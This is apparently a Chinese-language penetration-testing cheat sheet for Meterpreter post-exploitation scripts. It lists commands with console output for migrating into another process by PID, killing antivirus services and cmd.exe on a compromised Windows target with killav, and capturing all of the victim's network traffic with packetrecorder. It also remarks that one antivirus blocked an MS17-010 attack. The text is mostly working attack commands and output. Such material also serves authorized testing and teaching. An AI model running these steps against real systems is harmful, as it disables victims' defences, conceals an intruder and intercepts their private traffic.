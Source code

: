 ## Meterpreter脚本

使用方法

```
run 脚本路径/名称
```

### 迁移进程

脚本

```
post/windows/manage/migrate
```

或者可以直接使用migrate迁移权限到指定PID

```
migrate PID
```

### 关闭杀毒软件

```
run killav
```

在msf6中虽然还可以使用，但是会提示已弃用

```
meterpreter > run killav

[!] Meterpreter scripts are deprecated. Try post/windows/manage/killav.
[!] Example: run post/windows/manage/killav OPTION=value [...]
[*] Killing Antivirus services on the target...
[*] Killing off cmd.exe...
```

经过测试，无法识别出火绒杀毒，但是MS17-010攻击被火绒拦截

### 查看目标机器上所有流量

使用packetrecorder进行流量劫持，然后可以通过Wireshark进行分析

```
meterpreter > run packetrecorder -i 1

[!] Meterpreter scripts are deprecated. Try post/windows/manage/rpcapd_start.
[!] Example: run post/windows/manage/rpcapd_start OPTION=value [...]
[*] Starting Packet capture on interface 1
[+] Packet capture started
[*] Packets being saved in to /root/.msf4/logs/scripts/packetrecorder/WIN-ITNJLFM93P3_20210521.5655/WIN-ITNJLFM93P3_20210521.5655.cap
[*] Packet capture interval is 30 Seconds
```
